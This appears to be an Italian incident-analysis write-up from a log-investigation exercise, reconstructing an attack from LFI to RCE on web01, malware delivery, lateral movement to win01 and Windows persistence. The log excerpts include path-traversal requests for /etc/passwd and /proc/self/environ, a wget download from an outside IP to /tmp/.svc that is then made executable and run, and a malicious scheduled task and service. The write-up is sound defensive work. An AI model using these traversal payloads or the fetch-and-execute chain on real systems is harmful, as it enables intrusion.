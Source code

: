 



# logs 

![Web server logs](../image/2a.png)

![ Application / Service logs](../image/2b.png)

![ Security logs](../image/2c.png)



# Accesso Iniziale: Da LFI a RCE su web01
```
Initial Recon / Exploitation on web01
 └── 09:12:14 web01 nginx --> LFI: /reports/view.php?doc=../../../../../../etc/passwd (trace_id=tr-A)
     └── php-fpm → accessed /etc/passwd
 └── 09:12:16 web01 nginx -> LFI: /download.php?file=../../../var/log/auth.log (trace_id=tr-B)
     └── php-fpm → accessed /var/log/auth.log
 └── 09:12:18 web01 nginx -> LFI: /app/help.php?topic=../../../../proc/self/environ (trace_id=tr-A)
     └── auditd → SYSCALL: php-fpm spawns /usr/bin/bash -c "id; uname -a" → RCE confirmed
 └── 09:15:27 web01 nginx --> Attempted LFI on config.php (trace_id=tr-A) → PHP error / php-fpm crash & restart
```


Alle 09:12:14, ho notato una richiesta GET sospetta alla pagina view.php con un parametro doc che cercava di accedere a:

`../../../../../../etc/passwd`

All’inizio può sembrare solo un test, ma dal log di php-fpm ho visto che il file /etc/passwd è stato effettivamente letto. A quel punto ho capito che il server era vulnerabile a LFI (Local File Inclusion).
Pochi secondi dopo, alle 09:12:16, un’altra richiesta simile ha colpito download.php, cercando di leggere` ../../../var/log/auth.log`. Anche questa volta, il file è stato servito con successo. Questo mi ha fatto pensare che l’attaccante stesse mappando i file interni del sistema.
Il passaggio più critico è avvenuto alle 09:12:18, con una richiesta a:
`help.php?topic=../../../../proc/self/environ`
Questa tecnica è spesso usata per ottenere variabili d'ambiente e avviare codice malevolo. Infatti, il log di auditd conferma che php-fpm ha eseguito `/usr/bin/bash -c "id; uname -a"` 
 Qui ho avuto la conferma... l’attaccante ha ottenuto esecuzione di comandi sul server , quindi siamo passati da LFI a RCE (Remote Code Execution).
Infine, alle 09:15:27, è stato fatto un tentativo su export.php per leggere il file config.php. Ma qualcosa è andato storto.. il php-fpm ha generato un errore e si è bloccato, come confermato dai log di sistema. Il servizio si è poi riavviato automaticamente.
In breve, l’attaccante è partito leggendo file di sistema, ma è riuscito ad arrivare all’esecuzione remota di comandi. Un’escalation chiara e pericolosa.


# Fase di Attacco: Consegna del Payload su web01
```
 Payload Delivery on web01
 └── 09:18:41 web01 nginx -> LFI: /download.php?file=../../../../etc/hosts (trace_id=tr-B)
     └── 09:18:42 auditd -> wget http://198.51.100.91/.s → saved as /tmp/.svc
     └── 09:19:03 auditd -> chmod +x /tmp/.svc
     └── 09:19:07 auditd  --> /tmp/.svc --ping (dropper executed)
```
Alle 09:18:41, ho visto un’altra richiesta LFI, questa volta rivolta a download.php con il parametro `file=../../../../etc/hosts` . A prima vista sembrava simile alle precedenti, ma subito dopo ho notato qualcosa di diverso.
Solo un secondo dopo, alle 09:18:42, auditd registra un comando wget che scarica un file da un server esterno (IP: 198.51.100.91) e lo salva come /tmp/.svc. Questo file mi ha subito fatto pensare a un dropper, cioè un piccolo programma usato per caricare malware.
Poco dopo, alle 09:19:03, il file viene reso eseguibile con `chmod +x /tmp/.svc` , e finalmente, alle 09:19:07, viene eseguito con il comando:
`/tmp/.svc –ping`
Questo mi conferma che il payload è stato non solo consegnato, ma anche attivato. A quel punto, l’attaccante aveva un suo file eseguibile in funzione sul server ...segno chiaro che l'infezione era in corso.

# Movimento Laterale: Tentativo da web01 verso win01

```
Lateral Movement Attempt from web01 -> win01
 └── 09:21:05 web01 auditd -> python3 one-liner to ssh admin@win01 (trace_id=tr-A)
     └── 09:24:11 win01 Security -> Logon failure admin from 10.10.5.21
     └── 09:24:59 win01 Security -> Successful logon svc_webapp from 10.10.5.21

```
Alle 09:21:05, ho notato un comando eseguito tramite python3 da web01 che cercava di avviare una sessione SSH con l’utente admin@win01. Era una one-liner classica, del tipo usato per tentare un accesso veloce e silenzioso.
Il tentativo però fallisce, come indicato nel log di sicurezza di win01 alle 09:24:11, che riporta un errore di accesso per l’utente admin proveniente dall’indirizzo IP 10.10.5.21 (cioè il server web01). Fin qui, sembrava solo un test o un primo tentativo manuale.
Ma alle 09:24:59, la situazione cambia: c’è un accesso riuscito, stavolta con l’utente svc_webapp, dallo stesso IP. Questo suggerisce che l’attaccante aveva già credenziali valide per questo account o che le aveva ottenute poco prima. A quel punto, era riuscito a spostarsi dal server Linux (web01) al sistema Windows (win01) ...movimento laterale completato.

# Persistenza: Installazione di Meccanismi su win01

```
Persistence on win01
 └── 09:25:07 TaskScheduler EventID=106 -> Task registered "\System\UpdaterCache"
     Action = powershell.exe -File C:\ProgramData\upc.ps1 (trace_id=tr-B)
 └── 09:25:11 Sysmon 11 -> FileCreate C:\ProgramData\upc.ps1 (by powershell.exe)
 └── 09:25:42 SCM EventID=7045 --> Service installed "WinCacheSvc" → wincache.exe auto start
 └── 09:26:03 TaskScheduler EventID=201 --> Task "\System\UpdaterCache" started
```
Subito dopo l’accesso riuscito, l’attaccante inizia a stabilire persistenza sul sistema win01. 
09:25:07, ho visto che viene registrato un nuovo task pianificato chiamato \System\UpdaterCache. L’azione associata al task esegue powershell.exe con uno script:
`C:\ProgramData\upc.ps1`
Quattro minuti dopo, alle 09:25:11, Sysmon conferma la creazione del file upc.ps1, eseguito tramite PowerShell. Questo mi fa pensare che il file sia stato generato dinamicamente proprio in quel momento, probabilmente da un comando remoto.
Poi, alle 09:25:42, un nuovo servizio di sistema viene installato: WinCacheSvc, con wincache.exe impostato per l’avvio automatico. Questo è un classico esempio di persistenza tramite servizio Windows .... una tecnica usata per sopravvivere ai riavvii del sistema.
Infine, alle 09:26:03, il task pianificato UpdaterCache viene effettivamente avviato. A questo punto è chiaro: l’attaccante non solo ha avuto accesso al sistema, ma ha anche piazzato meccanismi per restare attivo nel tempo.

